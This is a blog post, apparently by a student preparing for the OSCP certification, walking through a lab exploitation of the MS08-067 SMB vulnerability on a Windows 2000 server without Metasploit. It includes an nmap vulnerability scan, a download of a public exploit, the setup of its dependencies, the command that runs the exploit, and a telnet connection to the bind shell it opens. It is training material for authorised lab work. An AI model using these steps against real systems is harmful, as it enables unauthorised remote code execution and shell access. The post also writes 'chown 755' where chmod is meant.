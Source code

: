 ```yaml
---
published: true
layout: post
title: "Exploiting the MS08-067 vulnerability without Metasploit"
---
```


I'm currently enrolled in Offensive Security's Penetration Testing with Kali Linux course with the intention of obtaining the OSCP Certification.  During the OSCP Certification Exam the use of Metasploit is limited, therefore I am not using it when exploiting the servers in the OSCP lab environment.  
Here are the steps I took to perform my first exploit - MS08-067 - without the use of Metasploit.

I targeted the Netbios service by using Nmap's smb-check-vulns script on a Windows 2000 Server

	nmap -v -p 139, 445 --script=smb-check-vulns --script-args=unsafe=1 192.168.31.205

Nmap returned the following

![_config.yml]({{ site.baseurl }}/images/nmap-ms08067-vulnerable.png)

Searched exploit-db for an exploit and found the following

![_config.yml]({{ site.baseurl }}/images/ms08067-exploitdb.png)
    
    cd ~/Projects/oscp/exploits
    wget https://www.exploit-db.com/download/7132 -O ms08-067.py
    chown 755 ms08-067.py

The exploit code states that impacket and pycrypto are required.  Download impacket and pycrypto.

	cd /opt/
    wget https://pypi.python.org/packages/source/i/impacket/impacket-0.9.13.tar.gz
    wget https://pypi.python.org/packages/source/p/pycrypto/pycrypto-2.6.1.tar.gz
    tar -xzf impacket-0.9.13.tar.gz
    tar -xzf pycrypto-2.6.1.tar.gz
 
Need python dev tools installed in order to build pycrypto

	apt-get install python-dev
    
Change the permissions on the impacket folder and run setup

    cd impacket-0.9.13/
	./setup.py

Change the permissions on the pycrypto folder and run setup

	cd ..
    cd pycrypto-2.6.1/ 
	python setup.py build
    python setup.py install
    
Change the port # in the exploit code to the port # reported as vulnerable by Nmap earlier (i'm using Sublime Text)

    cd ~/Projects/oscp/exploits
![_config.yml]({{ site.baseurl }}/images/ms08067-exploitcodeportnumber.png)

Execute the exploit with the argument of 1 for Windows 2000

    ./ms08-067.py 192.168.31.205 1
    
Output of exploit states to connect to victim server using telnet on port 4444

![_config.yml]({{ site.baseurl }}/images/ms08067-payload-sent.png)

Telnet to victim server

    telnet 192.168.31.205 4444
    
Shell obtained

    ![_config.yml]({{ site.baseurl }}/images/ms08067-shellobtained.png)




